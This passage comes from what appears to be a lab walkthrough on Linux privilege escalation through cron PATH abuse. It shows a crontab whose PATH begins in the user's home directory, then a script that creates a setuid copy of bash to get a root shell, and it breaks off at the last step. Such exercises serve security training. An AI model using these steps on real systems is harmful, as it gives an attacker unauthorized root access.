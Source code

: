 - View the contents of the system-wide crontab:

    ```bash
    user@debian:~$ cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.

    SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user  command
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #
    * * * * * root overwrite.sh
    * * * * * root /usr/local/bin/compress.sh
    ```
    
    Note that the PATH variable starts with /home/user which is our user's home directory.

- Create a file called overwrite.sh in your home directory with the following contents:

    ```bash
    #!/bin/bash

    cp /bin/bash /tmp/rootbash
    chmod +xs /tmp/rootbash
    ```

- Make sure that the file is executable:

    ```bash
    user@debian:~$ chmod +x /home/user/overwrite.sh
    ```

- Wait for the cron job to run (should not take longer than a minute). Run the `/tmp/rootbash` command with `-p` to gain a shell running with root privileges:
